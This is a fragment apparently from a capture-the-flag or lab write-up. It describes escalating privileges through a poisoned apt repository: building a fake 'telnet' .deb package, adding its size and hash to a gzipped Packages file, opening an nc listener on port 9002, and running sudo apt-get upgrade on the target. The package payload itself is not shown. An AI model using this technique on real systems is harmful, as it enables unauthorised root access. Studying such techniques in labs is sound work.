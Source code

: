 ```
dpkg-deb --build telnet/
```

```
sha256sum telnet.deb 
aa62dadfa0a26bc9685ab3529e1d1f56bf52385e0e4e0d58e784d99d255bc71c  telnet.deb
```

Now put the size and the sha256 sum in the Packages file, now gzip the packages

```
gzip Packages
```

Next thing is going to be set up a listener

```
nc -lvnp 9002
```

Then in the box

```
sudo apt-get update
sudo apt-get upgrade
```

